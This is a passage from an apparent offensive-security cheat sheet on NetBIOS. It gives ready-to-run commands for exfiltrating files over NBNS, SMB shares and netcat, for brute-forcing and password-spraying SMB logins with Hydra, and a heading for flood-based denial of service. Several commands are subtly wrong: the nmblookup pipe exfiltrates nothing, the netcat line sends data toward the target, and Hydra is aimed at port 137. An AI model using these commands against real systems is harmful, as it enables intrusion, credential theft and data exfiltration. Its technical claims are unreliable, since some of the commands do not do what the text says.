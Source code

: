 *   **Tool:** \[\[Custom Scripts]]

    ```bash
    echo "exfil data" | nmblookup -A <target_ip>
    ```
* **Description:** Leveraging NBNS queries to exfiltrate small amounts of data from a compromised network.

#### Exfiltrating Data via NetBIOS Shares

*   **Tool:** \[\[SMBClient]]

    ```bash
    smbclient //target/share -c "get sensitive_data.txt"
    ```
* **Description:** Use NetBIOS shares to exfiltrate sensitive data from the target machine.

#### Covert Channels

*   **Tool:** \[\[NetCat]]

    ```bash
    nc <target_ip> 139 < secret_file.txt
    ```
* **Description:** Create a covert channel using NetBIOS Session Service to exfiltrate data discreetly.

## Exploits and Attacks

### Password Attacks

#### Password Brute Force

*   **Tool:** \[\[Hydra Cheat Sheet]]

    ```bash
    hydra smb://<target_ip> -s 137 -l <username> -P <password_list>
    ```
* **Description:** Test a single username against multiple passwords.

#### Password Spray

*   **Tool:** \[\[Hydra Cheat Sheet]]

    ```bash
    hydra smb://<target_ip> -s 137 -l <username_list> -P <password>
    ```
* **Description:** Test a multiple usernames against a single password.

### Denial of Service

#### TCP/UPD Flood Attack

*   **Tool:** \[\[HPing3 Cheat Sheet]]
